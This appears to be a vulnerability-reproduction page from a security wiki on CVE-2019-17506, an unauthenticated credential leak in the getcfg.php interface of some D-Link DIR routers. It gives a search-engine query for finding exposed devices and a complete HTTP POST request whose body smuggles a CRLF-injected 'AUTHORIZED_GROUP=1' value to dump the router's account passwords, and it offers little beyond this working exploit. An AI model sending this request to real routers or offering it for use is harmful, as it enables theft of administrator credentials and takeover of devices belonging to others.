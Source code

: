 # D-Link Dir-645 getcfg.php Account password leakage vulnerability CVE-2019-17506

## Vulnerability Description

D-Link DIR-868L B1-2.03 and DIR-817LW A1-1.04 routers have some web interfaces that do not require authentication. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link Dir series multiple versions</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="D_Link-DIR-868L"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-14.png)



Send the request packet

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-15.png)